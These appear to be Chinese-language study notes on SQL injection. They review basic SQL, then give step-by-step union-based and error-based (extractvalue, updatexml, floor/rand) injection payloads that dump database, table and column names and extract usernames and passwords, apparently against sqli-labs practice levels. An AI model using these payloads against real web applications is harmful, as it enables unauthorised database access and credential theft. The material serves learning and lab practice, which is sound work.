# sql注入

## 基本知识
###  sql语句 

1：将user中的id，name等写入内容
```sql
insert into user(id,name,sex,birthday,job)
values(1,'jk','male',2005-09-28','it');
```
2：新增加一列内容，比如在user表中加一列salary最大8位小数点后面5位
```sql
alter table user add salary decimal(8,2);
```

3：修改内容，比如刚加入的列项salary没有内容


4：修改id=1行的name改为yjk
```sql
update user set name='yjk' where id=1;
```


4.修改回id=1的name为jk，同时修改salary为9000
```sql
update user set name='jk',salary=8000 where id=1;
```


5：删除列,例如删除slary这一列
```sql
alter  table user drop salary;
```

6：删除行
```sql
delete from user where job='it';
```

### 基本语句查询


**1:select +列名（*代表所有）from 表名 where 条件**

```sql
select *from users where id=3;
```

**2:从users表格中查询所有包含id为3的，效果和上一条查询语句一样**
```sql
select * from users where id in ('3');
```

**3.如果有括号括号里面的内容先查询**，比如我通过id查admin的信息，但是记不起来admin的id可以通过名字找到这一行，虽然看起来多此一举，但有的之后特别有用
```sql
select * from users where id=(select id from users where username='admin');
```


**4：联合查询**
查询合并数据显示，例如先查询users中的id信息然后再查询email_id的信息
```sql
select id from users union select email_id from emails;
```

注意联合查询是两边列数要相同
```sql
select * from users where id=1 union select * from emails where id=1;
```

因为users的所有列项有3列，但是emalis只有两列
为了解决这个问题可以**在列数少的那添加列**
```sql
select * from users where id=1 union select *,2 from emails where id=1;
```
此处在*后面加了,2表示加了一列且值为2，这样两遍都是3
列就可以查询了


**5:group by分组还可以用来判断列数**

用group by把内容一样的分到一组
```sql
select username from users group by username;
```
通过group by来判断有几列 


由上面两张图可以知道group by 1可以执行，2不可以执行，因为前面的返回字段是username，只有这一列内容无法对两列进行分组
为了知道有多少列，可以用下面这个sql语句
```sql
select * from users where id=1 gruop by 3;
```
不断的修改group by 后面的数字就可以知道到底多少列了
类似于group by的还有order by，但是order by的作用是将内容升序排序，同样可以用来判断列数

**6:限制输出内容数量**（一般用于报错注入）
限制为从第一行开始显示三行（注意真正的第一行是从0开始的）这里的第一行实际是第二行
```sql
select * from users limit 1,3;
```

**7:and和or**
例如查询id=1且username='jk'的
```sql
select * from user where id=1 and username='jk';
```
同样的还可以用or表示满住或的关系（or还可以用来做万能密码）

**8.group_concat**
把多行显示到一行，因为有的题目回限制输出行数，所以经常用group_concat将内容合并为一行
```sql
select group_concat(id,username,password) from users
```


**9.select database**
查看当前数据库的名字
```sql 
select database();
```


**10.selece version()**
查看当前数据库版本，常用于防火墙绕过
```sql
select version();
```



## sql注入
### 什么是注入
说为sql注入就是把sql命令插入到web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意sql命令以获得重要信息，即**构造一条精巧的语句得到想要的信息**

### 注入分类：
1. 按照查询字符型与数字型
使用and 1=1和and 1=2来来判断，或者用id=2-1如果结果于id=1是一样的说明就是数字型，数字型不用判断闭合方式
字符型

数字型

2. 按照注入方式分类：union注入，报错注入，布尔注入，时间注入等

### 什么是注入点

实行注入的地方，例如通过post,get,cookie等地方

### 闭合
手动提交闭合符号例如“ ' " '# ”等，结束前一段查询语句即可加入其他语句，查询需要的参数不需要的语句可以用注释符号“--+ 或%23”注释掉

### union注入（字符型）步骤
1. **先判断闭合方式' " '#等**
例如输入单引号报错，但是用--+注释掉之后页面正常说明就是单引号闭合




2. **判断列数**
    原因：unioun注入需要知道每个表的列数，不然会出现错误，所以要用group by或order by 来判断列数
例如：
```sql
id=1'group by 4 --+
```
group的原理是分组，超过了组数就报错


结合上面两张图可以知道有4列

```sql
id=1'order by 3--+
```
order的原理是从第i列排序，超过i列就会报错
3. **查看回显位**
```sql
id=-1'union select 1,2,3,--+
```

**注意这里现在是-1' 而不是1'了**，因为页面又是只会回显第一行数据，为了显示其他数据要将1改为负数或0.

这种情况2，3就是回显位
所以2可以在2这里加一个database（）

这样就回显内容了，改1是不会回显的

4. **拿到表名的信息**
数据库information_schema 包含所有mysql数据库的简要信息，其中包含两个数据表
tables 表名集合表
columns 列名集合表
```sql
?id=-1' union select 1,2,table_name from information_schema.tables --+
```
上述语句表示从数据库information_schema中的数据表tables获取数据列table_name，即查询数据库中的所有表名

但是这个语句纯在很大局限，表里的内容很多，但是这里只能显示第一个内容，而且我们想要的是当前数据表的，因此可以改为
```sql
?id=-1' union select 1,2,table_name from information_schema.tables where table_schema=database()--+
```
或者将database()修改为'security',因为前面在查看回显位的时候用database()函数得到了数据表名

这样查询还是有缺陷因为得不到所有security中的所有表名，所以这里利用了前面讲到的函数group_concat()了，**最终语句如下**
```sql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```



5. **查找列名的信息**
想要查找的信息在数据库information_schema的数据表columns的数据列column_name
```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database()--+
```

这里如果想要的是users中的列名,可以用and tabale_name='想看的数据表，**最终语句如下**
```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+
```


6. **获取数据**
这里想要获取username 和 password 的信息
```sql
?id=-1' union select 1,2,group_concat(username,password) from users--+
```


为了美观这里还可以用分隔符分割开，只需改为group_concat(username,'~',password)

### union注入（数字型）步骤
**数字型不用判断闭合方式**
1. **确定数字型还是字符型**


通过id=1,id=2所回显的信息不一样但是id=2-1的信息和id=1的信息一样说明是数字型
2. **使用group by 的二分法判断列数**


说明是三列
3. **优化语句将id改为一个不存在的数字,查看回显位**

4. **使用select语句，查询靶机数据库名**
```sql
?id=-1 union select 1,2,database()--+
```

5. **使用select语句查询靶机所有表名**
```sql
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

6. **使用select语句查询靶机所有列名**
```sql
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+
```

7. **查询想要的信息**
```sql
?id=-1 union select 1,2,group_concat(id,'~',username,'~',password) from users--+
```


**union注入的数字型和字符型的区别是数字型不用判断闭合方式，其他步骤基本一致**

### 报错注入基础知识
后台对于输入输出的合理性没有检测是报错注入的基础
报错注入简单的说就是:**构造语句，让错误信息中夹杂可以显示数据库内容的查询语句，返回报错提示中包含数据库的内容**

这里输入id=1，没有东西，但是可以判断出是单引号闭合
然后看一下group by判断列数


这里可以发现4列就会报错，group by 的原理类似于报错
然后再看一下database()

正常输入database()还是什么都没有，但是这里可以利用报错的原理，故意将database这个单词打错，然后他就会报错

从报错提示中可以得到数据库名是security
以上就是报错注入的基本原理


### extractValue()报错的报错注入
extractValue()包含两个参数，第一个参数 XML文档对象名称，第二个参数 路径。用来查询xml里面的内容
```sql
select extractvalue(doc,'/book/author/surname') from xml
```



extractvalue函数报错在于**查询参数格式符写错**，而不是把查询内容写错
extractvalue(doc,'~book/author/surname')例如这种形式才会报错
利用这个报错我们可以获得一些东西，即在报错之前执行一个select语句，包内容通过报错信息展示出来
```sql
select extractvalue(doc,concat(0x7e,(select database()))) from xml;
```
concat的作用是拼接 **(因为无法判断回显位，所以把内容都拼接在一起)** ，即把0x7e（~）和select语句拼接在一起
利用这条语句我们就可以得到当前数据库的名称


通过上面内容，我们大概初步了解报错注入，接下来的注入步骤类似于union注入，只不过想要的内容通过extractvalue获得
步骤:
1. 判断闭合方式
2. group by判断列数(可省略)
3. 拿当前数据库名
```sql
?id=-1' union select 1,2,extractvalue(1,concat(0x7e,(select database()))) --+
```

4. 拿表名
```sql
?id=-1' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+
```

4. 拿列名
```sql
?id=-1' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) --+
```

5. 获取信息
```sql
?id=-1' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(username,password) from users))) --+
```


我们发现extractvalue函数报错出来默认只返回32个字符串，所以可以使用substring函数显示25位往后的30个字符。将select语句的内容用substring包起来，后面接上25，30，具体如下
```sql
?id=-1' union select 1,2,extractvalue(1,concat(0x7e,substring((select group_concat(username,password) from users),25,30))) --+
```

结合上面几条语句发现，就是将想要的内容放入extractvalue函数里面
上面语句的形式还可以写成
```sql
?id=-1' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,password) from users))) --+
```

### Updatexml()报错的报错注入
**基础知识**
函数updatexml(XML_document,XPath_string,new_value)包含三个参数。
第一个参数：XML_document是string格式，为XML文档对象的名称，例如doc。
第二个参数：XPath_string 是路径。
第三个参数：new_value，替换查找到的符合条件的数据。
extractvalue()是查找，updatexml是查找后更新，对于报错注入，二者起作用的都是第二关参数，其他参数无所谓
同extactvalue(),输入的第二个参数，即更改路径的字符

下面展示具体步骤(sql/less-6)
1. 经过简单的判断为**字符型**
2. 判断为双引号闭合


3. 拿当前数据库名
```sql
?id=-1" and 1=updatexml(1,concat(0x7e,(select database())),3) --+
```

4. 拿表名
```sql
?id=-1" and 1=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),3) --+
```

5. 然后拿users的列名
```sql
?id=-1" and 1=updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')),3) --+
```

6. 拿信息(username,password)
```sql
?id=-1" and 1=updatexml(1,concat(0x7e,(select group_concat(username,password) from users)),3) --+
```

没有显示完全，再用substring拿剩下的
```sql
?id=-1" and 1=updatexml(1,concat(0x7e,substring((select group_concat(username,password) from users),25,30)),3) --+
```

然后把substring里的参数已知修改（修改25为25+30），重复操作知道拿到所有

### floor报错的报错注入
**基础知识**
**涉及到的函数** 
**rand():** 随机返回0-1之间的小数，rand()*2结果再0-2间

如果改成rand(0)*2 计算不在随机而是按一定顺序排序

rand() from users 有多少行计算多少次

floor():小数向下取整。向上取整是ceiling()

**concat_ws():** 将括号内的数据用一个字段连接起来，于之前的concat相识
例如:concat_ws(1，2，3)就是将2，3拼接起来，拼接方式是1
```sql
select concat_ws('-',2,3);
```

```sql
select concat_ws('-',database(),floor(rand()*2)) from users;
```

**group by:分组语句 as: 别名**
用as 可以将结果重新命名

再加上group by进行分组

分组之后就要统计数量
**count(): 汇总统计数量**
```sql
select count(*),concat_ws('-',database(),floor(rand()*2)) as jk from users group by jk;
```

limit:用于显示指定行数

**报错原理:**
rand()函数 进行分组group by和统计count()时可能会多次执行，导致键值key重复
```sql
select count(*),concat_ws('-',database(),floor(rand(0)*2)) as jk from information_schema.tables group by jk;
```


**下面用具体题目展示步骤**
>sql/Less-5/

1. 判断类型，字符型
2. 判断闭合方式，单引号闭合
3. 判断列数

接下来的操作只要将查询信息替**换掉concat_ws的第二个参数**
```sql
?id=1' union select 1,count(*),concat_ws('-',2,floor(rand(0)*2)) as jk from information_schema.tables group by jk--+
```
4. 拿表名
```sql
?id=1' union select 1,count(*),concat_ws('-',(select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand(0)*2)) as jk from information_schema.tables group by jk--+
```

5. 拿列名
```sql
?id=1' union select 1,count(*),concat_ws('-',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),floor(rand(0)*2)) as jk from information_schema.tables group by jk--+
```
6. 拿信息
```sql
?id=-1' union select 1,count(*),concat_ws('-',(select group_concat(username,password) from users),floor(rand(0)*2)) as jk from information_schema.tables group by jk--+
```
这里由于信息太长group_concat不能直接拿出来，可以用concat配合limit来限制输出
```sql
?id=1' union select 1,count(*),concat_ws('-',(select concat(username,password) from users limit 0,1),floor(rand(0)*2)) as jk from information_schema.tables group by jk--+
```
通过不断修改limit后面的第一个参数显示出不通的内容

还可以通过substring来解决


